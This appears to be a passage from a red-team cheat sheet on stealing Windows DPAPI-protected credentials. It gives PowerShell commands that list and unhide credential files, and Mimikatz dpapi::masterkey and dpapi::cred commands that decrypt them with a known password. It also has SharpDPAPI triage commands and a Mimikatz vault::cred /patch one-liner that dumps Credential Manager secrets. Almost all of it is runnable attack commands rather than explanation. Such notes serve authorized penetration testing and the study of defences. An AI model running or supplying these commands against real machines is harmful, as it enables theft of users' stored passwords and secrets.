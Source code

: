 Credential files locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Credentials\ (%appdata%\Microsoft\Credentials\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\ (%localappdata%\Microsoft\Credentials\)
```

Unhide files:

```
PS > cmd /c "attrib -h -s 00ff00ff-00ff-00ff-00ff-00ff00ff00ff
PS > cmd /c "attrib -h -s 00ff00ff00ff00ff00ff00ff00ff00ff"
```



### Mimikatz

* [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

Decrypt manually offline with known plaintext password:

```
mimikatz # dpapi::masterkey /in:00ff00ff-00ff-00ff-00ff-00ff00ff00ff /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:Passw0rd!
mimikatz # dpapi::cache
mimikatz # dpapi::cred /in:00ff00ff00ff00ff00ff00ff00ff00ff
```



### SharpDPAPI

* [https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1)

```
PS > .\SharpDPAPI.exe triage /password:Passw0rd!
PS > .\SharpDPAPI.exe machinetriage [/password:Passw0rd!]
```




## Credential Manager



### Mimikatz

```
Cmd > .\mimikatz.exe "privilege::debug" "log out.txt" "vault::cred /patch" "exit"
```


